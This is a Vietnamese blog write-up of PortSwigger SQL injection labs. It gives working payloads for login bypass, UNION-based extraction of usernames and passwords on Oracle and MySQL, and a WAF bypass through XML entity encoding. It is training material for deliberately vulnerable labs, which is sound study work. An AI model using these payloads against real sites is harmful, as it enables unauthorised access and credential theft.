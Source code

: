 ```yaml
---
title: SQL Injection Labs
date: '2022-12-24'
tags: ['porswigger', 'sql', 'injection','sqlinjection']
draft: false
summary: Writeups cua SQL Injection Labs.
images: ['/static/images/ccna/cisco.jpg']
author: ['default']
---
```

**[1.SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)**

- Ta thấy lệnh ```filter?``` sẽ truy xuất dữ liệu. Dùng ```filter?category=Pets'+or+1=1--'``` sẽ hiện ra toàn bộ thông tin sản phẩm.

**[2.SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)**

![image](https://user-images.githubusercontent.com/61643034/209037070-e5b60413-e259-47d7-9a2d-28b3c433fc0f.png)
- Sử dụng Burp Suite để chặn và sửa đổi yêu cầu đăng nhập.
- Sửa đổi tham số, cung cấp cho nó giá trị: ```usernameadministrator'--```

**[3.SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)**
- Mục đích của bài này là xác định số trường của query.
- Theo gợi ý thấy chèn sau category=? 1 đoạn ```'+UNION+SELECT+NULL,NULL--```
- Kết quả trả về là internal server -> thừa hoặc thiếu số lượng trường trong bảng -> thêm 1 trường vào -> query trở thành ```filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL-- ```

**[4.SQL injection UNION attack, finding a column containing text ](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**

- Bài này không chỉ cần xác định số trường của query mà còn cả vị trí của text string nữa.
- Cùng 1 trang web query nên ta biết chắc query này cũng sẽ có 3 cột
- Thử payload ```'+UNION+SELECT+'a',NULL,NULL--``` -> màn hình hiện lên bắt nhập string bắt buộc là ```'QCQTlQ'``` -> Enter
- Vẫn bị lỗi internal server -> thử vị trí của string thành cột 2, hoặc 3 -> ```'+UNION+SELECT+NULL,'QCQTlQ',NULL--``` -> done

**[5.SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**

- Theo mô tả, ta thấy trong database có bảng khác tên là users và bảng này có 2 cột ```username``` và ```password```.
- Thử payload ```'+UNION+SELECT+'a','a'--``` -> Lăn xuống thấy trả về 2 string ***a***
- Thay thành ```'+UNION+SELECT+'username','password'--```
- Màn hình sẽ show ra nhiều hàng hiển thị nhiều tài khoản -> lọc lại thấy có tài khoản ```administrator```
![image](https://user-images.githubusercontent.com/61643034/209432735-55ce8a1f-04e6-4e5b-8a47-04a90503dbaf.png)
 
 -> Click vào trang login -> nhập username và password và -> done
 
 **[6.SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**

- Tương tự 3.3,thử payload ```'+UNION+SELECT+NULL,username||'~'||password+FROM+users--``` 
![image](https://user-images.githubusercontent.com/61643034/209439384-7f5fc4e3-81c4-4312-8821-80c683513ebf.png)

 -> Click vào trang login -> nhập username và password và -> done
 
 **[7.SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)**

- Thử payload ```'+UNION+SELECT+'a',+NULL+FROM+v$version--``` 
- Thông tin của Oracle sẽ hiện ra và done!

 **[8.SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+@@version,+NULL#``` đây là payload dùng để show version -> sau đó có được version ```'8.0.31-0ubuntu0.20.04.2'``` thì thay ```@@version``` thành version vừa kiếm được. Vậy là xong rồi ^^

**[9.SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--``` đây là payload dùng để show tên các table có trong database, chúng ta sẽ cần nó để tìm tới table chứa ``user `` rồi thấy có 1 table tên là ```users_gwglpg``` rất khả nghi =)))
- Thử truy xuất dữ liệu xem có gì nào. Sửa pay load lại 1 xíu thành ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gwglpg'--``` -> ta được ```username_jsoxhc``` và ```password_tppahp```
- Giờ cùng dùng payload cuối nào ```'+UNION+SELECT+username_jsoxhc,+password_tppahp+FROM+users_gwglpg--``` 
![image](https://user-images.githubusercontent.com/61643034/209443750-96e84f6a-b582-40ce-8796-4383a022bdf8.png)

- Vào ***My Account*** rồi login với tài khoản admin trên là xong =)))

**[10.SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)**

- Dùng payload ```'+UNION+SELECT+'abc','def'+FROM+dual--``` -> hiện ra list bảng thấy có bảng user đặc biệt
![image](https://user-images.githubusercontent.com/61643034/209445285-0d03af36-06d8-4c80-be92-c6ebd47be4e1.png)
- Giờ có user -> đổi payload thành ```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_VODNEC'--``` (vì mình để lab lâu nên nó tự đổi tên user_name :> )
![image](https://user-images.githubusercontent.com/61643034/209446011-b155badb-1b25-4d34-bb21-c5c50d1d4875.png)
- Tiếp có username và password -> đổi payload thành như sau ```'+UNION+SELECT+USERNAME_VGBMEN,PASSWORD_BDEQAY+FROM+USERS_VODNEC--```
![image](https://user-images.githubusercontent.com/61643034/209446101-873b06f6-415e-42e4-b36d-0345d5af381e.png)
- Bây giờ chỉ login vào nữa :> 

**[11.Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
- 

**[17.SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
![image](https://user-images.githubusercontent.com/61643034/209040423-3270052e-3a07-4225-9431-70a5c5d6b9cc.png)**

- Truy cập trang web, ở burpsuite, bật interception on
- Bấm vào ```check``` -> vào check request trả về
- Trong request có trường ```storeID``` -> sửa thành ```1+1``` -> trả về 144 unit -> bằng với storeID=2
- Nhập 1 lệnh attack vào giữa cặp ```<storeID>``` -> trả về attack detected -> bị block
  ![image](https://user-images.githubusercontent.com/61643034/209041177-ab4fe22c-2342-451b-aa22-872c072242b4.png)
- Bây giờ vào extension -> cài Hackvertor -> vào encode -> dec_entries -> dán ```<@dec_entities>1 UNION SELECT username || '~' || password FROM users<@/dec_entities>``` vào được output -> copy thả lại vào cặp thẻ ```<storeID>```.
![image](https://user-images.githubusercontent.com/61643034/209444081-694a1c38-9abc-4c49-9bcc-7a908e80d23d.png)
 Và bbooms
![image](https://user-images.githubusercontent.com/61643034/209042766-d1661308-9cbb-42c4-9651-58ebde6e0c14.png)
- Bây giờ, chỉ cần login nữa là xong rồi ^^
